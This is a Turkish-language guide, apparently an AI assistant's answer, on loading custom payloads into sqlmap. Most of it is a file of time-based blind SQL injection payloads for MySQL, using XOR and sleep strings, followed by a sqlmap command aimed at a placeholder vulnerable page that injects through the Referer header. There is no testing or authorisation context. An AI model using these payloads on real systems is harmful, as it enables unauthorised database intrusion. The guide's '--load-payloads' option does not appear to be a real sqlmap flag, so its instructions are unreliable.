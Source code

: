 # sqlmap

Belirttiğiniz kaynağa göre, SQLmap için özel bir payload dosyası oluşturmak ve bu dosyayı kullanarak SQLmap'te kişiselleştirilmiş enjeksiyon testleri yapmak mümkündür. Verdiğiniz payloadları bu yönteme entegre edeceğiz.

### Adım 1: Özel Payload Dosyası Oluşturma

Öncelikle, tüm payloadlarınızı içeren bir dosya oluşturmalısınız. Bu dosyayı `custom_payloads.txt` olarak adlandırabiliriz. Dosya içeriğini aşağıdaki gibi düzenleyin:

#### `custom_payloads.txt`

```sql
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z
if(now()=sysdate(),sleep(3),0)/*'XOR(if(now()=sysdate(),sleep(3),0))OR'"XOR(if(now()=sysdate(),sleep(3),0))OR"*/
if(now()=sysdate(),sleep(0),0)/*'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"*/
if(now()=sysdate(),sleep(9),0)/*'XOR(if(now()=sysdate(),sleep(9),0))OR'"XOR(if(now()=sysdate(),sleep(9),0))OR"*/
if(now()=sysdate(),sleep(6),0)/*'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"*/
if(now()=sysdate(),sleep(10),0)/*'XOR(if(now()=sysdate(),sleep(10),0))OR'"XOR(if(now()=sysdate(),sleep(10),0))OR"*/
if(now()=sysdate(),sleep(5),0)/*'XOR(if(now()=sysdate(),sleep(5),0))OR'"XOR(if(now()=sysdate(),sleep(5),0))OR"*/
Hurlburt'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'XOR(if(now()=sysdate(),sleep(5*5),0))OR' -- -useragent
'+(select*from(select(sleep(7*7)))a)+'
'+(select*from(select(sleep(20)))a)+'
'+(select*from(select(sleep(20+10)))a)+'
XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM1]),444,0))XOR
XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM]),444,0))XOR
XOR(if((select/**/666/**/where/**/[INFERENCE]),444,0))XOR
```

### Adım 2: SQLmap Komutunu Kullanın

Özel payload dosyasını kullanarak SQLmap'te test yapmak için aşağıdaki komutu kullanabilirsiniz:

```bash
sqlmap -u "http://hedefsite.com/vulnerable_page.php?id=1" --dbms=mysql --technique=T --load-payloads=custom_payloads.txt --time-sec=10 --headers="Referer: http://www.google.com/search?hl=en&q=*"
```

**Komut Açıklamaları:**

- **--load-payloads=custom_payloads.txt**: Özel payload dosyasını belirtir.
- **--time-sec=10**: SQLmap'in bekleme süresini 10 saniye olarak ayarlar.
- **--headers**: Enjekte edilecek başlıkları belirtir (örneğin, `Referer`).

### Adım 3: Test Sonuçlarını Kontrol Etme

SQLmap çalıştırıldığında, özel payloadları kullanarak hedefteki SQL enjeksiyon güvenlik açıklarını test edecektir. Sonuçları gözlemleyerek hangi payloadların başarılı olduğunu ve hedefin yanıt süresine göre hangilerinin en etkili olduğunu değerlendirebilirsiniz.

### Sonuç

Bu yöntemle, SQLmap'te kendi belirttiğiniz özel payloadları kullanarak kişiselleştirilmiş SQL enjeksiyon testleri yapabilirsiniz. SQLmap'in mevcut seçeneklerini ve parametrelerini kullanarak test sürecinizi daha da optimize edebilirsiniz.
